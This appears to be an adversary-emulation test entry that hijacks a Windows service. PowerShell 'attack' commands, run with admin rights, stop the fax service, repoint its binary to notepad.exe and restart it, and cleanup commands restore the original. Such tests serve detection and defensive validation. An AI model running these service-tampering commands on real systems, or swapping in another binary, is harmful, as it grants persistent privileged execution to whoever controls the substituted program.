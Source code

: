**Supported Platforms:** Windows


**auto_generated_guid:** 1f896ce4-8070-4959-8a25-2658856a70c9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| service_name | Name of the service to modify | string | fax|
| new_bin_path | Path of the new service binary | String | $env:windir&#92;system32&#92;notepad.exe|
| original_bin_path | Path of the original service binary | String | $env:windir&#92;system32&#92;fxssvc.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Stop-Service -Name "#{service_name}" -force -erroraction silentlycontinue | Out-Null
set-servicebinarypath -name "#{service_name}" -path "#{new_bin_path}"
start-service -Name "#{service_name}" -erroraction silentlycontinue | out-null
```

#### Cleanup Commands:
```powershell
Stop-Service -Name "#{service_name}" -force -erroraction silentlycontinue | Out-Null
set-servicebinarypath -name "#{service_name}" -path "#{original_bin_path}" -erroraction silentlycontinue | out-null
```





<br/>
